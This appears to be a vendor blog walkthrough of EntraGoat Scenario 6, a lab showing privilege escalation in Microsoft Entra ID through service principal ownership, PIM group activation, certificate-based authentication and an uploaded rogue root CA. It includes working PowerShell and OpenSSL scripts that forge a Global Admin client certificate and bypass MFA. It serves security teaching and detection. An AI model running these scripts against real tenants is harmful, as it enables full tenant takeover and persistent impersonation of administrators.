

## Certificate Bypass Authority–Root Access Granted

EntraGoat Scenario 6 details a privilege escalation technique in Microsoft Entra ID where the player begins with low-privileged credentials and achieves Global Administrator access by chaining misconfigured service principals, over-permissive app roles, and legitimate certificate-based authentication (CBA) functionality.

Using leaked credentials from a legacy service principal, the attacker pivots through owned identity, abuses privileged permissions to modify tenant-wide settings, enables CBA via a user eligible for Privileged Identity Management (PIM) for Groups, and uploads a rogue root certificate authority. This results in passwordless, MFA-compliant impersonation of a Global Admin—enabling complete tenant takeover and persistence.

### Attack path overview

1. **Initial foothold story**: The attacker obtains hardcoded client credentials for a legacy automation service principal embedded in an old PowerShell repository.
2. **Pivot via ownership**: The legacy service principal is found to own another service principal. Using Application.ReadWrite.OwnedBy, the attacker backdoors the second service principal by adding a secret and pivots to it.
3. **Tenant configuration abuse**: The second service principal has Organization.ReadWrite.All permission. While not capable of managing users or roles, this permission allows modification of tenant-wide configurations, including authentication settings.
4. **Certificate-based authentication (CBA) enablement via group-based PIM assignment**: A user the attacker has access to is found to be PIM-eligible for a group that holds the Authentication Policy Administrator role. After activating membership, the attacker enables CBA across the tenant.
5. **Establishing trust with a malicious root certificate authority (CA)**: The attacker generates and uploads a rogue root CA to the tenant, effectively making it a trusted identity provider.
6. **Impersonation of Global Admin**: Finally, the attacker crafts a client certificate for a Global Admin account, signs it with the malicious root CA, and uses CBA to authenticate—achieving passwordless, MFA-compliant authentication.

### Attack flow

*Figure 1* shows the flow of this attack.



*Figure 1. Flow of the Certificate Bypass Authority–Root Access Granted attack scenario*

### Why security teams need to understand Entra ID misconfigurations

This attack chain takes advantage of both common misconfigurations and foundational design patterns in Entra ID that are often misunderstood or neglected in real-world environments.

1. **Legacy automation debt is real.** Service principals created for automation may remain unmanaged after deployment. Over time, this can lead to excessive permissions and ownership over other service principals, creating hidden privilege chains. Additionally, poor secret management—such as hardcoded credentials in scripts—often remain in place once “everything is working,” resulting in long-lived and unmonitored access paths.
2. **Service principal ownership grants credential management rights.** Many organizations don't audit service principal ownership chains or realize the implications.
3. **Permissions don’t exist in isolation.** The attack relies on a combination of permissions that appear limited in scope when viewed individually:
   * Application.ReadWrite.OwnedBy allows managing owned service principals by a calling app.
   * Organization.ReadWrite.All grants the ability to modify org-wide configuration settings.
   * Authentication Policy Administrator (or Policy.ReadWrite.AuthenticationMethod) enables and configures CBA.

Individually, each permission has a limited and specific scope. However, when combined, they enable configuration changes that allow impersonation of privileged identities through legitimate authentication mechanisms.

1. **Lastly, CBA pierces the tenant's trust boundary.** Once configured, the external CA becomes a valid identity issuer for **any user** in the tenant.

**Note:** The theoretical background on Entra ID’s application model, as well as certificate-based authentication for both interactive user sign-in and OAuth client assertion flows, was covered in the **Scenario 2** blog post. We recommend reviewing it first for proper context.

### How to detect and defend against exploitation of misconfigurations

Misconfigurations like those exploited in this scenario are often overlooked but can lead to full compromise of an Entra ID tenant. To help organizations identify attack paths before they can be abused, **Semperis solutions** provide indicators of exposures (IOEs) and indicators of compromise (IOCs) to detect and alert on dangerous defaults and misconfigurations, including an indicator for certificate-based authentication persistence and additional checks that assess the security posture of Entra ID environments.

## Scenario deep dive: Step-by-step solution walkthrough

Let’s take a look at the steps involved in creating a rogue root certificate authority that can unlock the entire Entra ID tenant.

### Step 1: Initial foothold with hardcoded service principal credentials

We begin with a leaked secret “found” in a legacy PowerShell repository belonging to an outdated automation script, which *Figure 2* shows.


*Figure 2. A leaked secret initiates scenario setup*

Using those credentials, we authenticate as the service principal, as *Figure 3* shows.


*Figure 3. Authenticating as the outdated service principal*

Validation confirms successful authentication for Legacy-Automation-Service. We check the permissions assigned to the identity, and one key permission stands out (*Figure 4*).


*Figure 4. The* ***Application.ReadWrite.OwnedBy*** *permission assigned to the application identity*

The **Application.ReadWrite.OwnedBy** permission grants the caller app the ability to perform the same operations as Application.ReadWrite.All to manage (read**/**update**/**delete) but **only** on application objects for which the caller is explicitly listed as an owner. This enables tightly scoped automation scenarios without exposing broad directory-wide application management.

As demonstrated in **[Scenario 1](https://www.semperis.com/blog/service-principal-ownership-abuse-in-entra-id/)**, ownership over a service principal permits credential management, including adding client secrets. To explore potential targets, we enumerate all service principals in the tenant and check which are owned by the currently authenticated identity (*Figure 5*).


*Figure 5. Enumerating service principals in the Entra ID tenant*

Service principal ownership found: DataSync-Production.

**Fun fact:** It’s impossible to set a service principal as an owner of another service principal via Azure portal UI or Entra admin center, even though the ownership is visible there (*Figure 6*). Only user identities are allowed.


*Figure 6. Viewing service principal ownership in Entra admin center*

We configured ownership of the service principal in the setup script by directly calling the Graph API, which does support this operation:

```powershell
$OwnerParams = @{

    "@odata.id" = "https://graph.microsoft.com/v1.0/directoryObjects/$($LegacySP.Id)"

}

New-MgServicePrincipalOwnerByRef -ServicePrincipalId $DataSyncSP.Id -BodyParameter $OwnerParams

```

### Step 2: Evaluating pivot target

We now need to check whether the service principal we own is a viable privilege escalation path. We can reuse the simple Get-ServicePrincipalRoles function from Scenario 1 to enumerate directory role assignments:

```powershell
function Get-ServicePrincipalRoles {

    param([object]$ServicePrincipal)

    Write-Host "Checking roles for: $($ServicePrincipal.DisplayName)"

    $roleAssignments = Get-MgRoleManagementDirectoryRoleAssignment -Filter "principalId eq '$($ServicePrincipal.Id)'" -ErrorAction SilentlyContinue

    $roles = @()

    if ($roleAssignments) {

        foreach ($assignment in $roleAssignments) {

            $roleDefinition = Get-MgRoleManagementDirectoryRoleDefinition -UnifiedRoleDefinitionId $assignment.RoleDefinitionId

            $roles += $roleDefinition

            Write-Host "   Role: $($roleDefinition.DisplayName)" -ForegroundColor Green

        }

    } else {

        Write-Host "   No directory roles assigned"

    }

    return $roles

}

```

As *Figure 7* shows, no directory roles are assigned.


*Figure 7. Initial enumeration returning no directory roles*

But as we know by now, directory roles aren't the only vector with service principals. What about app roles (*Figure 8*)?


*Figure 8. Enumerating app roles*

Like in other scenarios, Directory.Read.All has probably been granted just to simplify the enumeration phase. More interesting, the service principal also has the Organization.ReadWrite.All app role. This permission is often overlooked but has high-impact capabilities. While it doesn’t grant control over users, groups, or roles, it **does** allow modification of tenant-wide settings such as company branding and authentication policies. In fact, as demonstrated in the excellent SpecterOps [research blog](https://posts.specterops.io/passwordless-persistence-and-privilege-escalation-in-azure-98a01310be3f) Passwordless Persistence and Privilege Escalation in Azure1, this permission is enough to **add a new root CA to the Entra ID tenant** which then can sign forged user certificates for certificate-based sign-in.

Given that, our next step is to add a client secret to the service principal:

```powershell
$secretDescription = "Totally-Legit-EntraGoat-Secret-$(Get-Date -Format 'yyyyMMdd-HHmmss')"

$passwordCredential = @{

    DisplayName = $secretDescription

    EndDateTime = (Get-Date).AddYears(1)

}

$newSecret = Add-MgServicePrincipalPassword -ServicePrincipalId $dataSyncSP.Id -PasswordCredential $passwordCredential

$dataSyncSecret = $newSecret.SecretText # save it for later

```

### Step 3: Pivoting to the DataSync-Production service principal

Although we now have the ability to upload a "trusted" root certificate authority, we're blocked from leveraging it for impersonation because we can’t enable CBA (*Figure 9*), which requires either the Policy.ReadWrite.AuthenticationMethod permission or the Authentication Policy Administrator role—neither of which is assigned to the DataSync-Production service principal.


*Figure 9. CBA is forbidden*

After exhausting enumeration options under this SP’s identity, we’re at a dead end. No CBA enablement. But WAIT: Have we looked at what our compromised user, terence.mckenna, has access to?

### Step 4: Shifting focus to user context

Is Terence a member of any groups (*Figure 10*)?


*Figure 10. Exploring Terence’s possible group memberships*

Nothing beyond the default tenant group.

Any group ownership (*Figure 11*)?


*Figure 11. Exploring Terence’s possible group ownership*

None. Any owned service principals (*Figure 12*)?


*Figure 12. No Terence-owned service principals*

Still nothing. Any eligible PIM for group assignments?


*Figure 13. At last, group eligibility for Terence*

Yes! Terence is eligible for the Authentication Policy Managers group.

Let’s check what roles the Authentication Policy Managers group is assigned (Figure 14).


*Figure 14. Checking roles for the Authentication Policy Managers group*

Those are highly privileged roles.

* Application Administrator allows full control over all applications in the tenant, including the ability to add secrets or certificates to any service principal. (We intentionally included this role to support multiple attack paths of varying complexity.)
* Authentication Policy Administrator, crucially, grants us the ability to enable **CBA—**the exact control we were missing to advance with the attack chain.

\_\_\_\_\_

**Note:** Since this is (currently) the final scenario in the EntraGoat series, we intentionally include some of these dead-end enumeration steps to illustrate the thought process behind privilege discovery. Systematic exploration of both service principals and user identities is critical for identifying viable escalation paths in Entra ID.

\_\_\_\_\_

### Step 5: Activating PIM assignment

Now that we’ve identified eligibility for the Authentication Policy Managers group, we can self-activate the PIM assignment using the Graph API:

```powershell
$activationBody = @{

    accessId = "member"

    principalId = $currentUser.Id

    groupId = $authGroup.Id

    action = "selfActivate"

    scheduleInfo = @{

        startDateTime = (Get-Date).ToUniversalTime().ToString("o")

        expiration = @{

            type = "afterDuration"

            duration = "PT8H"

        }

    }

    justification = "Need to configure authentication policies for support tickets"

}

Invoke-MgGraphRequest -Method POST `

    -Uri "https://graph.microsoft.com/beta/identityGovernance/privilegedAccess/group/assignmentScheduleRequests" `

    -Body $activationBody -ContentType "application/json"

```

After a short propagation delay, we can re-check group membership to confirm active status (*Figure 15*).


*Figure 15. Confirming we’ve established active group membership*

### **Step 6: Enabling certificate-based authentication**

With group membership active, we can enable tenant-wide CBA. First, we query the current CBA configuration object (*Figure 16*).


*Figure 16. That’s a nice function name*

Then, we enable CBA using the following payload for the updated configuration:

```powershell
$updateParams = @{

    State = "enabled"

    "@odata.type" = "#microsoft.graph.x509CertificateAuthenticationMethodConfiguration"

    certificateUserBindings = @(

        @{

            x509CertificateField = "PrincipalName"

            userProperty = "userPrincipalName"

            priority = 1

        }

    )

    authenticationModeConfiguration = @{

        x509CertificateAuthenticationDefaultMode = "x509CertificateSingleFactor"

        rules = @()

    }

}

Update-MgPolicyAuthenticationMethodPolicyAuthenticationMethodConfiguration `

    -AuthenticationMethodConfigurationId "X509Certificate" -BodyParameter $updateParams

```

And we verify that CBA is now enabled (*Figure 17*).


*Figure 17. CBA enabled*

\_\_\_\_\_

**Note:** This change can also be applied interactively through the Entra admin center by:

* Signing in at [https://entra.microsoft.com](https://entra.microsoft.com/) using Terence’s account
* Navigate to: Entra ID → Authentication methods → Policies → Certificate-based authentication
* Toggle state to **Enable, as *Figure 18* shows**


*Figure 18. CBA enabled through Entra admin center*

Depending on tenant policy, MFA setup may be required for Terence on first login.

\_\_\_\_\_

### Step 7: Uploading the malicious root certificate authority

Now that CBA is enabled, we pivot back to the DataSync-Production service principal and authenticate using the client secret we previously added to it in order to add a root CA to the tenant's trusted CAs.

```powershell
Connect-MgGraph -TenantId $tenantId -ClientSecretCredential $dsCred
```

***NOTE:*** Creating, configuring, and uploading a root CA and client certificate to Entra ID via CLI is a multi-step process with several failure points. Entra ID enforces a specific format for the UPN field in the SAN extension that PowerShell struggles to generate with the required OID. To avoid these pitfalls, we use OpenSSL to generate both the root CA.

We begin by setting up the CA structure with the following script:

```powershell
$opensslBinary = "C:\Program Files\OpenSSL-Win64\bin\openssl.exe"

$adminUPN = (Get-MgUser -Filter "startswith(userPrincipalName,'EntraGoat-admin-s6')").UserPrincipalName

# Setup CA directory structure

$caWorkspace = "$env:TEMP\EntraGoat-CA"

if (Test-Path $caWorkspace) {

    Set-Location $env:TEMP

    Remove-Item $caWorkspace -Recurse -Force

}

@("$caWorkspace", "$caWorkspace\ca", "$caWorkspace\ca\issued") | ForEach-Object {

    New-Item -Path $\_ -ItemType Directory -Force | Out-Null

}

# Initialize database (as OpenSSL requires specific format)

New-Item -Path "$caWorkspace\ca\index.db" -ItemType File -Force | Out-Null

"01" | Out-File "$caWorkspace\ca\serial" -Encoding ASCII -NoNewline

# Root Certificate Authority configuration

$caConfig = @"

[ ca ]

default\_ca = entragoat\_ca

[ entragoat\_ca ]

dir = ./ca

certs = `$dir

new\_certs\_dir = `$dir/issued

database = `$dir/index.db

serial = `$dir/serial

RANDFILE = `$dir/.rand

certificate = `$dir/entragoat-root.cer

private\_key = `$dir/entragoat-root.key

default\_days = 730

default\_crl\_days = 30

default\_md = sha256

preserve = no

policy = trust\_no\_one\_policy

[ trust\_no\_one\_policy ]

countryName = optional

stateOrProvinceName = optional

localityName = optional

organizationName = optional

organizationalUnitName = optional

commonName = optional

emailAddress = optional

[req]

x509\_extensions = user\_cert

req\_extensions = v3\_req

[ user\_cert ]

subjectAltName = @alt\_names

[ v3\_req ]

subjectAltName = @alt\_names

[alt\_names]

otherName=1.3.6.1.4.1.311.20.2.3;UTF8:$adminUPN

"@

# Client certificate configuration with SAN extension

$clientConfig = @"

[req]

x509\_extensions = user\_cert

req\_extensions = v3\_req

[ user\_cert ]

subjectAltName = @alt\_names

[ v3\_req ]

subjectAltName = @alt\_names

[alt\_names]

otherName=1.3.6.1.4.1.311.20.2.3;UTF8:$adminUPN

"@

# output configuration to files

$caConfig | Out-File "$caWorkspace\ca.conf" -Encoding ASCII

$clientConfig | Out-File "$caWorkspace\client.conf" -Encoding ASCII

Set-Location $caWorkspace

# Generate root CA private key

& $opensslBinary genrsa -out ca\entragoat-root.key 4096

# Create root certificate for entra trust

& $opensslBinary req -new -x509 -days 3650 -key ca\entragoat-root.key -out ca\entragoat-root.cer -subj "/CN=EntraGoat Evil Root CA/O=EntraGoat Security/C=US"

Write-Output "Root CA certificate path: $caWorkspace\ca\entragoat-root.cer" # upload this to the tenant

```

After the malicious CA infrastructure is prepared, the contents of $caWorkspace\ca\ should resemble the files that *Figure 19* shows.


*Figure 19. Output to $caWorkspace\ca\*

Now we can upload our custom root certificate to Entra ID’s trusted certificate authorities list:

```powershell
# Load the root certificate

$rootCA = [System.Security.Cryptography.X509Certificates.X509Certificate2]::new("$caWorkspace\ca\entragoat-root.cer")

$caAuthority = @{

    isRootAuthority = $true

    certificate = [System.Convert]::ToBase64String($rootCA.GetRawCertData())

}

# get existing CBA configuration

try {

    $existingConfigs = Invoke-MgGraphRequest -Method GET `

        -Uri "https://graph.microsoft.com/v1.0/organization/$tenantId/certificateBasedAuthConfiguration"

    if ($existingConfigs.value -and $existingConfigs.value.Count -gt 0) {

        # Update existing config

        $configId = $existingConfigs.value[0].id

        $existingCAs = $existingConfigs.value[0].certificateAuthorities

        # Add new CA to existing ones

        $updatedCAs = $existingCAs + @($caAuthority)

        $updateBody = @{

            certificateAuthorities = $updatedCAs

        } | ConvertTo-Json -Depth 3

        $response = Invoke-MgGraphRequest -Method PATCH `

            -Uri "https://graph.microsoft.com/v1.0/organization/$tenantId/certificateBasedAuthConfiguration/$configId" `

            -Body $updateBody `

            -ContentType "application/json"

    } else {

        throw "No existing configuration found"

    }

}

catch {

    # Create new CBA configuration

    $body = @{

        certificateAuthorities = @($caAuthority)

    } | ConvertTo-Json -Depth 3

    $response = Invoke-MgGraphRequest -Method POST `

        -Uri "https://graph.microsoft.com/v1.0/organization/$tenantId/certificateBasedAuthConfiguration" `

        -Body $body `

        -ContentType "application/json"

}

```

And verify that the upload succeeded and the certificate is now trusted by the tenant:

```powershell
$configs = Invoke-MgGraphRequest -Method GET `

    -Uri "https://graph.microsoft.com/v1.0/organization/$tenantId/certificateBasedAuthConfiguration"

$uploadSuccess = $false

if ($configs.value -and $configs.value.Count -gt 0) {

    foreach ($ca in $configs.value[0].certificateAuthorities) {

        $certBytes = [Convert]::FromBase64String($ca.certificate)

        $cert = [System.Security.Cryptography.X509Certificates.X509Certificate2]::new($certBytes)

        if ($cert.Thumbprint -eq $rootCA.Thumbprint) {

            Write-Output "[+] Root CA successfully uploaded to tenant"

            Write-Output "    Thumbprint: $($cert.Thumbprint)"

            Write-Output "    Subject: $($cert.Subject)"

            $uploadSuccess = $true

            break

        }

    }

}

if (-not $uploadSuccess) {

    Write-Output "[-] Failed to verify root CA upload. Please check the configuration."

}

```

Great! The root CA is now uploaded (*Figure 20*).


*Figure 20. Confirmation of successful upload of the root CA*

With the rogue CA accepted and trusted, we can now issue a client certificate for any identity (including the EntraGoat-admin-s6 user) and sign them using our newly and totally legitimate root CA:

```powershell
# Generate client certificate private key and signing request

& $opensslBinary req -new -sha256 -config client.conf -newkey rsa:4096 -nodes -keyout "$adminUPN.key" -out "$adminUPN.csr" -subj "/C=US/ST=Washingaot/L=EvilDistrict/O=EntraGoat/OU=Security/CN=$adminUPN"

# Sign the client certificate with root CA

& $opensslBinary ca -batch -md sha256 -config ca.conf -extensions v3\_req -out "$adminUPN.crt" -infiles "$adminUPN.csr"

# Convert to PFX format for Windows installation

& $opensslBinary pkcs12 -inkey "$adminUPN.key" -in "$adminUPN.crt" -export -out "$adminUPN.pfx" -password pass:EntraGoat123!

```

### Step 8: Passwordless authentication to GA

To complete the privileged escalation path:

1. **Install** the issued .pfx certificate located in $caWorkspace on your local machine (*Figure 21*). The import password is EntraGoat123!.


*Figure 21. Installing the .pfx certificate*

2. Follow the instructions of the Certificate Import Wizard. After installation, confirm the certificate appears in certmgr.msc under **Personal → Certificates**, as Figure 22 shows.


*Figure 22. Confirmation of our evil root certificate*

3. Navigate to <https://portal.azure.com> or <https://entra.microsoft.com/>.
4. Enter the UPN for the EntraGoat-admin-s6 account.
5. When prompted, select the installed certificate (Figure 23).


*Figure 23. Selecting the evil root certificate*

### Step 9: Troubleshooting CBA and MFA binding

If authentication fails with **Certificate validation failed***,* it’s likely due to misconfigured certificate parameters or SAN/OID formatting errors.

However, if you successfully reach the **Stay signed in?**prompt and are then redirected to **Choose a way to sign in***,* this indicates that:

* The certificate is valid
* CBA is enabled
* **But** the tenant’s authentication binding policy classifies certificates as single-factor authentication
* **And** tenant policies require multifactor authentication for privileged access

In that case, the default mode value x509CertificateAuthenticationDefaultMode is set to single-factor x509CertificateSingleFactor and because of that, CBA **does not satisfy MFA** requirements on its own (*Figure 24*) and cannot be used to access privileged accounts.


*Figure 24. MFA is still required*

To resolve this, an Authentication Policy Administrator can update the default binding mode to x509CertificateMultiFactor, allowing CBA to meet MFA requirements (*Figure 25*).


*Figure 25. Configuring MFA compliance*

We can set CBA with Terence user’s security context:

```powershell
# Get current config

$current = Invoke-MgGraphRequest -Method GET -Uri "https://graph.microsoft.com/beta/policies/authenticationmethodspolicy/authenticationMethodConfigurations/X509Certificate"

# Check current mode

$current.authenticationModeConfiguration.x509CertificateAuthenticationDefaultMode

# change to MultiFactor if needed

$params = @{

    "@odata.type" = "#microsoft.graph.x509CertificateAuthenticationMethodConfiguration"

    id = "X509Certificate"

    certificateUserBindings = $current.certificateUserBindings

    authenticationModeConfiguration = @{

        x509CertificateAuthenticationDefaultMode = "x509CertificateMultiFactor"

        x509CertificateDefaultRequiredAffinityLevel = "low"

        rules = @()

    }

    includeTargets = $current.includeTargets

    excludeTargets = $current.excludeTargets

    state = "enabled"

    issuerHintsConfiguration = $current.issuerHintsConfiguration

    crlValidationConfiguration = $current.crlValidationConfiguration

    certificateAuthorityScopes = @()

}

# Apply changes

Invoke-MgGraphRequest -Method PATCH -Uri "https://graph.microsoft.com/beta/policies/authenticationmethodspolicy/authenticationMethodConfigurations/X509Certificate" -Body ($params | ConvertTo-Json -Depth 10)

# Verify change

$updated = Invoke-MgGraphRequest -Method GET -Uri "https://graph.microsoft.com/beta/policies/authenticationmethodspolicy/authenticationMethodConfigurations/X509Certificate"

$updated.authenticationModeConfiguration.x509CertificateAuthenticationDefaultMode

```

**Alternative (GUI):** You can also configure this through the Entra admin portal (*Figure 26*). Follow this path:

Entra ID → Authentication methods → Policies → Certificate-based authentication → Configure

Under **Authentication binding**, set Default authentication strength to **Multi-factor**.


*Figure 26. Configuring MFA-compliance in Entra admin portal*

With this policy in place, the forged client certificate can now be used to log in as
EntraGoat-admin-s6, fully passwordless and MFA-compliant, completing the attack chain and granting Global Administrator access to retrieve the flag from the UI (*Figure 27*),


*Figure 27. Flag captured*

Once the scenario is completed, we execute the cleanup script to restore the tenant to its original state.

## Lesson learned: Misconfigurations open attack paths

This scenario reveals how chained misconfigurations across service principals, app role assignments, and authentication settings can be weaponized to achieve full Entra ID tenant compromise without ever interacting with user passwords.

It starts with leaked credentials for a low-privileged legacy service principal, which is common in automation sprawl, and escalates by abusing overlooked permissions of Application.ReadWrite.OwnedBy and Organization.ReadWrite.All.

By pivoting between owned service principals and activating a PIM-based group assignment, the attacker enables CBA and uploads a malicious root CA to the tenant.

Finally, by issuing a forged client certificate for the Global Admin account, changing the tenant’s authentication binding policy rule on certificates to satisfy MFA requirements, and logging in with it via CBA, the attacker bypasses passwords and MFA.

This attack path exposes overlooked gaps in trust boundaries and identity architecture, showing how **identity has become the new perimeter, susceptible to layered misconfigurations and unintended privilege chains.**


## Endnote

1 https://posts.specterops.io/passwordless-persistence-and-privilege-escalation-in-azure-98a01310be3f

## Disclaimer

This content is provided for educational and informational purposes only. It is intended to promote awareness and responsible remediation of security vulnerabilities that may exist on systems you own or are authorized to test. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. We do not endorse or condone any illegal activity and disclaims any liability arising from misuse of the material. Additionally, We do not guarantee the accuracy or completeness of the content and assumes no liability for any damages resulting from its use.